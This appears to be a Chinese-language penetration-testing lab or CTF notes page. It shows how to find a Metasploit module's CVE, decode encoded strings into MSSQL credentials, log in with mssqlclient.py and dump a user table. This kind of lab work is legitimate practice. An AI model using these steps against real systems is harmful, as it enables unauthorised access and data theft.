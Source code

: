   

- msf 里的脚本不好利用时，可以找到对应的 CVE 编号，再全网搜 EXP

  ```bash
  └─# cat 16320.rb |grep CVE                                                                                                                                   1 ⨯
  					[ 'CVE', '2007-2447' ],
  					[ 'URL', 'http://samba.org/samba/security/CVE-2007-2447.html' ]
  ```



- 脚本解码 ASCII

  ```bash
  └─# perl -lpe '$_=pack"B*",$_' < <( echo 010000000110010001101101001000010110111001011111010100000100000001110011011100110101011100110000011100100110010000100001 )
  @dm!n_P@ssW0rd!
  ```

  ```bash
  └─# echo NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx | base64 -d
  6d2424716c5f53405f504073735730726421      
  ```

  ```bash
  root@kali# echo NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx | base64 -d | xxd -r -p
  m$$ql_S@_P@ssW0rd!
  ```



-  MSSQL 登录与简单操作

  ```
  └─# mssqlclient.py 'admin:m$$ql_S@_P@ssW0rd!@10.10.10.52'
  ```

  用 GUI 工具更方便 dbeaver(kali可安装)。我环境有问题，于是手动查询  [SQL Server中获取所有数据库名、所有表名、所有字段名的SQL语句_lingxyd_0的博客-CSDN博客](https://blog.csdn.net/lingxyd_0/article/details/18356407)

  ```
  SELECT name, database_id, create_date  FROM sys.databases;
  ```

  ```
  use master;
  ```

  ```
  use orcharddb
  ```

  ```
  Select Name FROM SysObjects Where XType='U' orDER BY Name
  ```

  ```
  select * from blog_Orchard_Users_UserPartRecord 
  ```



